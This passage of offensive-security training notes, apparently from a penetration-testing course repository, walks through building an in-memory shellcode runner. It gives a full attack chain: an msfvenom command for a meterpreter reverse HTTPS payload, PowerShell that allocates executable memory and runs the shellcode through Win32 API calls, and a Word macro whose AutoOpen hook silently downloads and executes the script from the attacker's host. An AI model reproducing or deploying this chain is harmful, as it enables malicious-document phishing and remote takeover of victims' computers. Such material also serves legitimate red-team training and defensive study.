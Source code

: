 ## Building our Shellcode

We can now start building our shellcode same as before in the section [2. Creating Our Shellcode](../../02.Document%20memory/2.%20Creating%20Our%20Shellcode.md), we use 3 Win32 APIs that are:
- VirtualAlloc
- RtlMoveMemory(In powershell we'll use copy method in _System.Runtime.InteropServices.Marshal_ namespace)
- CreateThread

First off, we use pinvoke to translate the arguments of VirtualAlloc and CreatThread

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
```

Next, we build our shellcode:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f ps1 -o memory_shellcode_powershell.ps1
```

We can now add our shell code to a variable called $buf.
Create another variable called $size that is the size of our $buf variable
And finally, call our functions.
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
The arguments have already been explained in the [2. Creating Our Shellcode](../../02.Document%20memory/2.%20Creating%20Our%20Shellcode.md) section.

Our final code will look something like so:
```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

This may get us a shell, but we need to trigger this from a word macro.
For this, we'll create a cradle that will download our code into memory and execute it.

The code for the cradle will look as follows:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.150/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

However, we're still not completely finished yet.
Essentially, with our current code, the powershell will terminate before it even starts, this is because our shell dies as soon as the parent Powershell proccess terminates.

To solve this, we will instruct Powershell to delay it's terminatin until the shell fully executes.
For this, we can use Win32 WaitSingleObject API to pause the script and allow meterpreter to finish.
We will now proceed to update our script using P/Invoke and invoke the declared function:

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
	[DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
	
	[DllImport("kernel32.dll", SetLastError=true)] 
	public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

With this, we have successfully created a shellcode in memory using Powershell:
![ps-in-mem-proof](../../../../../Screenshots/ps-in-mem-proof.png)
